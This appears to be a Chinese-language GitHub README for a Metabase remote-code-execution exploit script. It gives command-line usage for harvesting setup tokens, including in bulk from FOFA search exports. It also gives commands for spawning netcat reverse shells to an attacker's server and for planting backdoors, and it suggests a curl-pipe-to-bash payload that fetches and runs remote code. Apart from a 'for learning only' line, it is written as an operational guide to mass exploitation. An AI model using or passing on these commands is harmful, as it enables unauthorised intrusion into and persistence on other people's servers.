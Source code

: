 # metabase_exp
metabase rce
仅供学习使用
漏洞利用过程为：获取token->测试token是否可用->尝试nc反弹->尝试自定义命令留后门

获取token
'''python3 metabase_exp.py poc -u xxx.com'''
批量获取token    fofa搜的json可以直接用，其他的需要手工改一下host定位字段
'''python3  metabase_exp.py poc -f 文件名.json -o 输出文件名.json'''

尝试nc反弹
'''python3 metabase_exp.py exp -u xxx.com -t xxx -i 服务器ip -p 服务器端口'''
nc批量弹，虽然nc只能上线一个但是token不一定每个都能用，所以批量上方便点哪台弹上打哪台，然后把批量文件中打进去的哪台以上都删掉，或者多打几遍有脏东西的有的时候就是会莫名其妙上线不了
'''python3 metabase_exp.py exp -f poc生成的json文件 -i 服务器ip -p 服务器端口'''

尝试自定义命令留后门
我的思路是curl -A O  -o- -L http://xxx/a.html | bash -s 直接把要执行的命令写a.html里面，payload写太长会出问题不能执行
'''python3 metabase_exp.py backdoor  -f/-u -t  json文件/ip token -p 你的payload'''

我遇到的问题：waf，不出网，无法后利用
太菜了写的不是很好啊哈哈

我的库版本
certifi            2023.5.7
charset-normalizer 3.2.0
pip                23.2.1
pycryptodomex      3.14.0
requests           2.31.0
setuptools         67.6.1
urllib3            2.0.3
wheel              0.40.0
版本问题没试过
